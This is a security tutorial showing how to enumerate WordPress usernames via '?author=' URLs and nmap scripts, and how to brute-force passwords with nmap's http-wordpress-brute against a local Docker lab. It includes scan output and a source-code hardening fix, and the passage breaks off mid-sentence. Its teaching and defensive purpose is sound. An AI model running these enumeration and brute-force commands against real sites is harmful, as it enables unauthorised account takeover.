

Introduction¶
WordPress is a free and open-source blogging tool and a content management system (CMS) based on PHP and MySQL [wikipedia]. It is very popular because it is easy to use and deploy on the Internet. On the other hand, it has a lot of security threats. In this document, I would like to show you how the hacker steals the information from your WordPress website and attack it. Then, I want to suggest the way to pretect your system from the attack.
To attack the system without permission is against law. So I installed the target testing system on docker in my laptop. It is very fast and easy to manage your testing WordPress website. You can take advantage of docker as well.
Preparing a target with docker¶
I modified the docker WordPress image of Tutum Cloud a little to install the old version of WordPress. The old version has more vulneranability so it is not difficut to find weaknesses. I tested the version of 1.2.1 and 4.2 and both are working well. You should refer here to install the old version.
Sometimes the new start of container changes its IP address for example, from 172.17.0.7 to 172.17.0.8.
Note
To start and attach your ready-made instance, you can run this command:
$ sudo docker start -a <CONTAINER ID>
For exameple,
$ sudo docker start -a e98a5273f9bf
At this time, if you want to keep working with your wordpress site,
you may add the WP_HOME and WP_SITEURL variables in wp-config.php:
define('WP_HOME','http://172.17.0.8');
define('WP_SITEURL','http://172.17.0.8');
You can study more about this in https://codex.wordpress.org/Changing_The_Site_URL.
ID hacking¶
To see which ID is in the WordPress website, open the following URL but change the IP address with your own address or name:
http:://172.17.0.7/?author=1
If you have not deleted the default admin ID created during the installation, you will be redirected to the URL similar to this:
http://172.17.0.7/authors/admin
This means that admin user of the system is admin.
I do not know why WordPress provide this functionality.
You can enumerate the users list taking advantage of this weakness. Tools such as wpscan, nmap and Burp Suite are available to do this [attacking-wordpress]. Here I will show you how to use nmap script for this attack.
Attack with nmap¶
The command nmap -sV --script http-wordpress-enum --script-args limit=25 <target>
shows user names as well as the open ports and its service/version info.
Default limit is 100. If you specify limit argument as 25, only 25 user IDs is searched.
$ nmap -sV --script http-wordpress-enum --script-args limit=25 172.17.0.7
Starting Nmap 6.40 ( http://nmap.org ) at 2015-06-01 15:57 AEST
Nmap scan report for 172.17.0.7
Host is up (0.00035s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.7 ((Ubuntu))
| http-wordpress-enum:
| Username found: root
|_Search stopped at ID #25. Increase the upper limit if necessary with 'http-wordpress-enum.limit'
3306/tcp open mysql MySQL (unauthorized)
Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.21 seconds
Moreover, brute force attack can be excuted to find the password of certain user or users.
The file of 500-worst-passwords.txt used below is from Skull Security.
users.txt just contains root and admin and you can add more from the result of user enumeration described above.
$ nmap -sV --script http-wordpress-brute --script-args 'userdb=users.txt,passdb=500-worst-passwords.txt' 172.17.0.7
Starting Nmap 6.40 ( http://nmap.org ) at 2015-06-01 16:37 AEST
Nmap scan report for 172.17.0.7
Host is up (0.00040s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.7 ((Ubuntu))
| http-wordpress-brute:
| Accounts
| root:123456
| root:123456 - Valid credentials
| Statistics
|_ Performed 506 guesses in 5 seconds, average tps: 101
3306/tcp open mysql MySQL (unauthorized)
Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.54 seconds
How to secure your WordPress ID from theft¶
There are several ways to protect your ID:
- modify WordPress source code
- URL change with modwrite
- WordPress plugin
You can find a document in detail for this in Question Defense.
Here I just introduce the way of modifying the WordPress source code.
The file you must change is wp-includes/canonical.php. Search for author and delete four lines similar to these ones:
if ( ( false !== $author ) && $wpdb->get_var( $wpdb->prepare( "SELECT ID FROM $wpdb->posts WHERE $wpdb->posts.post_author = %d AND $wpdb->posts.post_status = 'publish' LIMIT 1", $author->ID ) ) ) {
if ( $redirect_url = get_author_posts_url($author->ID, $author->user_nicename) )
$redirect['query'] = remove_query_arg('author', $redirect['query']);
}
Note
Even though you disabled the feature of ID exposure in the URL line of web browser,
the web page of ending with ?author=1 will show your ID in web page
if you don’t set up Display name in your profile. So you must configure it different with ID like this:
